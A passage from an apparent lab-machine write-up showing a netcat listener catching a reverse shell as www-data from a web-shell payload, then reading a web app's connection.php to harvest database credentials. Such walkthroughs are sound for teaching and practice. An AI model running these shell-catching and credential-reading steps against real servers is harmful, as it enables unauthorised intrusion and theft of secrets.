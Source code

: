 {% highlight none linenos %}
┌──(kali㉿kali)-[/tmp/x]
└─$ @@sudo nc -lvp 443@@
listening on [any] 443 ...
10.10.10.73: inverse host lookup failed: Unknown host
@@@connect to [10.10.16.7] from (UNKNOWN) [10.10.10.73] 60458@@@
sh: 0: can't access tty; job control turned off
$ @@whoami@@
@@@www-data@@@
{% endhighlight %}

Next, we execute `nc -lvp 443` to start a netcat listener and execute the URL-encoded payload using the web shell. Once the server has processed the request, the server connects back to our listener and provides us with a shell as the `www-data` user, as can be seen above. The next step is to escalate our privileges!

# Privilege Escalation

When we were uploading files, we discovered that the web server root was `/var/www/html`. Now that we have a shell as `www-data`, we can list files in this directory and read their content. One of the files in this directory is `connection.php` which contains credentials for connecting to a database.
{% highlight none linenos %}
$ @@ls /var/www/html@@
assets
authorized.php
@@@connection.php@@@
css
cyberlaw.txt
footer.php
header.php
icon.png
images
index.php
js
login.php
login_logic.php
logout.php
profile.php
robots.txt
style.php
upload.php
uploads
$ @@cat /var/www/html/connection.php@@
<?php
   define('DB_SERVER', 'localhost:3306');
   define('@@@DB_USERNAME@@@', '@@@moshe@@@');
   define('@@@DB_PASSWORD@@@', '@@@falafelIsReallyTasty@@@');
   define('DB_DATABASE', 'falafel');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
   // Check connection
   if (mysqli_connect_errno())
   {
      echo "Failed to connect to MySQL: " . mysqli_connect_error();
   }
?>
$ 
{% endhighlight %}
